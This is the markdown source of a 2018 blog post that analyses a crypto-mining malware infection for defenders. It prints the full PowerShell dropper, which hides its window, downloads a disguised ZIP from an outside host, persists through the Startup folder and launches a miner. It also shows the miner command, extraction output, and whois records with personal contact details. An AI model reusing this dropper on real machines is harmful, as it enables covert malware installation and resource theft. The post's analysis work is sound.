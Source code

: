 ```yaml
---
layout: post
title:  "Rise of the Crypto Miner Malware"
date:   2018-06-22 13:49:33 +0000
tags: [malware, bitcoin, crypto, pentest, redteam, blueteam]
---
```

![](/assets/minergate.png)

We’ve been sitting on this for some time. But as we were tiding our notes we stumbled across this draft post we never really finished. Sadly, there is not too much to tell. But hopefully this will help other blueteamers, in understanding crypto-mining malware infections?

A copy of the powershell malware can be found on pastebin here:

https://pastebin.com/pxKXKKAY

The investigation started as a bit of powershell:
```
new ActiveXObject(“WScript.Shell”).Run(“powershell -ExecutionPolicy Bypass -windowstyle hidden -noexit -Command “+String.fromCharCode(34)+”$str0 =”http://gul";$str1 = ‘Miner’ ;$TempDir = [System.IO.Path]::GetTempPath();$startup = [environment]::getfolderpath(‘Startup’);$url1 = ($str0)+’fup.co/i/00676/e2zlk0e4qr4c.jpg’;$output1 = ($TempDir+$str1);$wc = New-Object System.Net.WebClient;$wc.DownloadFile($url1, $output1);Start-Sleep -s 30;$proj_files = Get-Item -Path ($TempDir+$str1);ForEach ($file in $proj_files) {;$filenew1 = $str1 + ‘.zip’;Rename-Item $file $filenew1};Expand-Archive -Path ($TempDir+$filenew1) -DestinationPath ($TempDir) -Force;Start-Sleep -s 20;$str3 = ‘update.lnk’;Copy-Item ($TempDir+$str3) -Destination $startup ;Start-Sleep -s 10;Invoke-Item ($startup+$str3)”+String.fromCharCode(34),0,false);
minergate-cli -user djamel4art@gmail.com -bcn 1
```
The payload: http://gulfup.co/i/00676/e2zlk0e4qr4c.jpg

Hexdump of the payload:
```
$ xxd e2zlk0e4qr4c.jpg 
0000000: 504b 0304 1400 0000 0800 665d 3945 22ec PK……..f]9E”.
0000010: 0e6f 40ed 5000 00f0 7a00 1100 0000 6d69 .o@.P…z…..mi
0000020: 6e65 7267 6174 652d 636c 692e 6578 65d4 nergate-cli.exe.
0000030: 3a0b 7414 5596 af3a 954e 8514 e942 ba23 :.t.U..:.N…B.#
0000040: 08ab 7104 7526 0c2e 4405 a7fd 2439 d36d ..q.u&..D…$9.m
0000050: 401b 3ab4 743b cb49 0203 3a31 e320 86ae @.:.t;.I..:1. ..
```
Looks like a ZIP file containing a bitcoin miner! Because the file’s magic bytes are 0x504b = PK.

We can use binwalk to extract parts of the binary:
```
$ binwalk e2zlk0e4qr4c.jpg
DECIMAL HEX DESCRIPTION
 — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — -
0 0x0 Zip archive data, at least v2.0 to extract
5303663 0x50ED6F Zip archive data, at least v2.0 to extract
5461951 0x5357BF Zip archive data, at least v2.0 to extract
5935809 0x5A92C1 Zip archive data, at least v2.0 to extract
7763954 0x7677F2 COBALT boot rom data (Flat boot rom or file system)
8031674 0x7A8DBA Zip archive data, at least v2.0 to extract
...abbreviated...
```
List of extracted files:
```
$ ls
0.zip 806577.zip 8A5FFA.zip e2zlk0e4qr4c.jpg rn.js
50ED6F.zip 8065D3.zip 8BD983.zip libeay32.dll ssleay32.dll
5357BF.zip 8265F6.zip Qt5Core.dll minergate-cli.exe update.lnk
5A92C1.zip 8268D8.zip Qt5Network.dll msvcp110.dll vccorlib110.dll
7A8DBA.zip 83D42C.zip Qt5WebSockets.dll msvcr110.dll
7FC82D.zip 83D454.zip cudart32_60.dll platforms
```
Standard strings against the windows shortcut (update.lnk)
```
$ strings update.lnk 
/C:\
Users
kamel
AppData
Local
Temp
Ka=.
1SPS
rn.js
C:\Users\kamel\AppData\Local\Temp\rn.js
desktop-4tlqnc3
%temp%\rn.js
Minergate
```
The command
```
minergate-cli -user djamel4art@gmail.com -bcn 1
```
Minergate-client comand breakdown
```
minergate-cli -user <account/email> -<coin type> <cores>
```
Therefore:
* account = djamel4art@gmail.com
* coin = Bytecoin
* cores = 1
A list of currency /coin types are:
* bcn Bytecoin
* xmr Monero
* fcn Fantomcoin
* dsh Dashcoin
* qcn QuazarCoin
* xdn DigitalNote
* mcn MonetaVerde
* aeon Aeon coin
* inf8 Infinium-8
## Whois
<pre>
$ whois gulfup.co
Domain Name: gulfup.co
Registry Domain ID: D177495327-CO
Registrar WHOIS Server:
Registrar URL: whois.godaddy.com
Updated Date: 2017–03–11T11:29:25Z
Creation Date: 2017–03–11T11:12:08Z
Registry Expiry Date: 2018–03–10T23:59:59Z
Registrar: GoDaddy.com, Inc.
Registrar IANA ID: 146
Registrar Abuse Contact Email: abuse@godaddy.com
Registrar Abuse Contact Phone: +1.4806242505
Domain Status: clientTransferProhibited https://icann.org/epp#clientTransferProhibited
Domain Status: clientUpdateProhibited https://icann.org/epp#clientUpdateProhibited
Domain Status: clientRenewProhibited https://icann.org/epp#clientRenewProhibited
Domain Status: clientDeleteProhibited https://icann.org/epp#clientDeleteProhibited
Registry Registrant ID: C177495323-CO
Registrant Name: Abdulaali Alzahrani
Registrant Organization:
Registrant Street: albaha
Registrant Street: albaha
Registrant Street:
Registrant City: albaha
Registrant State/Province: king abdulaziz
Registrant Postal Code: 61008
Registrant Country: SA
Registrant Phone: +966.564401880
Registrant Phone Ext:
Registrant Fax:
Registrant Fax Ext:
Registrant Email: zx_xs@hotmail.com
Registry Admin ID: C177495325-CO
Tech Name: Abdulaali Alzahrani
Tech Organization:
Tech Street: albaha
Tech Street: albaha
Tech Street:
Tech City: albaha
Tech State/Province: king abdulaziz
Tech Postal Code: 61008
Tech Country: SA
Tech Phone: +966.564401880
Tech Phone Ext:
Tech Fax:
Tech Fax Ext:
Tech Email: zx_xs@hotmail.com
Name Server: aragorn.ns.cloudflare.com
Name Server: melissa.ns.cloudflare.com
</pre>
whois on the hosting IP range:
<pre>
$ whois 62.210.139.211
inetnum: 62.210.128.0–62.210.255.255
org: ORG-ONLI1-RIPE
netname: IE-POOL-BUSINESS-HOSTING
descr: IP Pool for Iliad-Entreprises Business Hosting Customers
country: FR
admin-c: IENT-RIPE
tech-c: IENT-RIPE
status: LIR-PARTITIONED PA
mnt-by: MNT-TISCALIFR-B2B
created: 2012–11–02T11:40:24Z
last-modified: 2016–02–22T16:26:23Z
source: RIPE
mnt-routes: MNT-TISCALIFR-B2B
mnt-lower: MNT-TISCALIFR-B2B
For more information about Minergate visit: https://minergate.com/
</pre>
## Conclusion
Fake whois record for the domain, the created update.lnk file leaked a user name ‘kamal’, the minergate account was for a gmail account ‘djamel4art’. As this point we could not progress any further.

